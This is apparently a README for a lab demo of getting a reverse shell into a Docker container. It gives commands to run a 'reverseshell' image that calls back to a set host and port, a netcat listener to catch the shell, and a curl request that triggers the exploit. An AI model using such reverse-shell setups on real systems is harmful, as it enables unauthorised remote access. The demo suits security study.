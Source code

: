 # README.md
Demonstrates getting access into a container

Run the stupid webserver.  Retrieve your host ip address and replace. 
```
docker build -t reverseshell . 
docker run --env REMOTE_HOST=192.168.1.238 --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

Run the callback service
```
nc -l -p 8888 -vvv 
```

Invoke the exploit against the web server
```
curl localhost:8080
```

Now go back to the shell running the callback and list the contents. 

```
apt install curl
```

## Troubleshooting  
Test with a simple webservice  
```
docker run -it --rm -p 8080:8080 --entrypoint /bin/bash reverseshell
echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 8080 -q 1
curl localhost:8080
```

```
tmuxinator
tmuxinator stop reverseshell
```